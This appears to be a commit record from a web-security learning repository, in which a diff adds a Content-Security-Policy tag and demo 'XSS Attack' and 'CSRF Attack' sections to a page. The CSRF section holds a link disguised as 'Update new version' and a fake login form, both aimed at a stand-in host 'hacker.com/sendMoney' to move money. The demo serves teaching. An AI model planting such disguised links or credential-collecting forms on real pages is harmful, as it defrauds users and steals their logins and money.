

Before and after one commit to AnbarasanJ24/Web-Security, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (284-995 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Added content security policy

```diff
--- a/app.js
+++ b/app.js
@@ -2,6 +2,7 @@ const userMessages = [];
 
 const userMessageForm = document.querySelector('form');
 const userMessagesList = document.querySelector('ul');
+const targetWebsite = document.querySelector('#target_website');
 
 function renderMessages() {
   let messageItems = '';
--- a/index.html
+++ b/index.html
@@ -5,14 +5,21 @@
     <meta charset="UTF-8">
     <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <meta http-equiv="Content-Security-Policy" content="script-src 'self' ; object-src 'self';
+    base-uri 'none'; style-src 'self'">
     <title>Web Security</title>
     <link rel="stylesheet" href="style.css">
+    <link rel="preconnect" href="https://fonts.googleapis.com">
+    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
+    <link href="https://fonts.googleapis.com/css2?family=Raleway:wght@100;400;600;800;900&display=swap"
+        rel="stylesheet">
     <script src="app.js" defer></script>
 
 </head>
 
 <body>
     <section id="user-input">
+        <h1>XSS Attack</h1>
         <form>
             <div class="form-control">
                 <label for="user-message">Your Message</label>
@@ -28,6 +35,27 @@
     <section id="user-messages">
         <ul></ul>
     </section>
+    <section id="user-input">
+        <h1>CSRF Attack</h1>
+        <a class="csrf-attack" href="http://hacker.com/sendMoney?from='Anbarasan'&to='hacker'&amount=100000"
+            target="_self">
+            Update new version
+        </a>
+
+        <form action="http://hacker.com/sendMoney?from='Anbarasan'&to='hacker'&amount=100000" method="POST">
+            <div class="form-control">
+                <label for="message-image">Username</label>
+                <input type="text" id="message-image" name="message-image" />
+            </div>
+            <div class="form-control">
+                <label for="message-image">Password</label>
+                <input type="text" id="message-image" name="message-image" />
+            </div>
+            <button type="submit">Login</button>
+
+        </form>
+
+    </section>
 </body>
 
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
